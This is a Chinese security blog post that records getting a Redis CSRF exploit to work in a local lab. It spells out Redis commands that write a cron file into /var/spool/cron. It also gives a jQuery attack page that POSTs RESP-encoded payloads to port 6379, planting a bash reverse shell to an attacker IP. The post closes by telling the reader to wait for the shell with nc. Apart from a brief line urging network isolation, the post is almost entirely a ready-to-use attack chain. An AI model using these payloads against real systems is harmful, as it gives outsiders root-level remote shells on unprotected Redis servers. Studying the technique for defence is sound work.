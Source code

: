 ```yaml
---
layout: post
title: Redis CSRF漏洞调试记录
description: "redis csrf"
category: scanner
tags: [scanner]
imagefeature: http://7xwdx7.com1.z0.glb.clouddn.com/5551e1cabd3bb.jpg
comments: true
share: true
---
```


# Redis CSRF漏洞调试记录

### 背景
过完年开工，就爆出了redis的CSRF漏洞。前有通过SSRF构造攻击报文执行redis命令，现在又出客户端请求伪造，redis未授权访问真是后患无穷。作为拥有大内网的“有钱人”们，还是做好网段隔离和访问控制，彻底消除隐患吧。

### 攻击原理
通过阅读
[ Whatsinmyredis作者的github项目](https://github.com/dxa4481/whatsinmyredis)
发现攻击方式为构造POST请求提交至Redis监听端口6379。在Redis对HTTP报文的处理过程中，每次出现%0d%0a换行，就认为是一条命令进行解析，同时在执行无意义的错误命令后，不会主动关闭tcp连接，而是继续执行下一条命令。因此HTTP报文的Header不会影响到POST正文的解析执行，从而形成了CSRF利用。

但是根据作者项目中js脚本的payload，发现无法在实际环境中执行，究其根本原因，还在于空格字符的干扰。虽然作者提供的示例无法直接拿来使用，不过还是暗中给出了解决该问题的链接地址：
`http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html`

这里不得不膜拜一下，人家早在2014年就开始玩HTTP报文攻击redis服务了。文章里提到了构造满足Redis Protocol格式的命令来避免空格的干扰，还提到了读取系统文件内容等利用方式。

通过将原始payload进行编码构造，终于实现了CSRF的任意redis命令执行。

### 攻击利用

在本地搭建的测试环境中，我们尝试利用Redis CSRF写入cron配置脚本，从而获取目标主机的反弹shell。从redis原始操作命令来看，需要4步程序：
* 设置路径:
`config set dir /var/spool/cron/`
* 设置文件名：
 `config set dbfilename root`
* 将cron脚本写入key:
`set wow "\n\n\n* * * * * bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1\n\n\n"`
* 利用save命令写入系统目录:
`SAVE`

将这些命令编码，并构造成CSRF攻击页面，具体代码如下：

{% highlight javascript %}

      alert("向redis发送第一次请求");
	  var payload = "CONFIG SET dir /var/spool/cron/ \r\n\r\n";
      $.post("http://192.168.33.130:6379", payload, function(data){alert(data);});

	  alert("向redis发送第二次请求");
	  var payload = "CONFIG SET dbfilename root \r\n\r\n";
      $.post("http://192.168.33.130:6379", payload, function(data){alert(data);});

      alert("向redis发送第三次请求");
	  payload = "*3\r\n$3\r\nSET\r\n$4\r\ntest\r\n$62\r\n\n\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.33.129/9999 0>&1\n\n\n\r\n\r\n";
      $.post("http://192.168.33.130:6379", payload, function(data){alert(data);});


	  alert("向redis发送第四次请求");
	  payload = "SAVE\r\n\r\n";
      $.post("http://192.168.33.130:6379", payload, function(data){alert(data);});

{% endhighlight %}

### 攻击效果

我们可以开启redis的monitor模式来查看攻击效果，
当我们访问CSRF页面时，可以看到这些命令在redis中被顺利执行了。
![redis执行记录](http://7xwdx7.com1.z0.glb.clouddn.com/redis-monitor.png)

同时，我们可以通过crontab -l查看目标主机，确认cron脚本已经被顺利写入文件系统。
![crontab状态](http://7xwdx7.com1.z0.glb.clouddn.com/crontab-list.png)

最后，就安安静静的开着nc等主机上线吧。
